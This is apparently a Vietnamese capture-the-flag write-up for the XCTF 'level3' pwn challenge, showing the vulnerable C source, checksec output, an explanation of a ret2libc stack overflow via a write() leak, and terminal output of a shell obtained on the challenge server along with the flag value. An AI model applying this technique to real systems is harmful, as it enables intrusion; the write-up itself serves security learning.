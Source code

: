 # XCTF - PWN Exercise - level3

```c
#include<stdio.h>

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ checksec level3   
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/5_level3/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Chương trình rất đơn giản, biến `buf` có 136 kí tự nhưng hàm `read` cho phép đọc 256 kí tự input và chương trình cũng không có flag secure `Canary` => có thể stack buffer overflow để lấy shell tương tác trên server. Chúng ta sẽ dùng phương pháp `ret2libc` vì không có functions nào của chương trình cho phép có shell hay là đọc flag trên server.

Những bài sử dụng kỹ thuật `ret2libc` thường sẽ leak địa chỉ của libc bằng hàm write hoặc hàm puts rồi sau đó tính toán offset và địa chỉ của các hàm liên quan đến lấy shell tương tác như: địa chỉ cơ sở của libc, system, chuỗi "/bin/sh",...  Bài này có sẵn hàm write nên ta sẽ dùng hàm write để leak và tính toán dữ liệu liên quan.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ python2 exploit.py
[+] Opening connection to 111.200.241.244 on port 51341: Done
('Write_got address is', '0xf76e13c0')
('libc address is', '0xf760d000')
('system address is', '0xf7647940')
('/bin/sh address is', '0xf776602b')
[*] Switching to interactive mode
Input:
$ ls
bin
dev
flag
level3
lib
lib32
lib64
$ cat flag
cyberpeace{30760e28dd5d22b93e22a2d89a7113b9}
$  
```
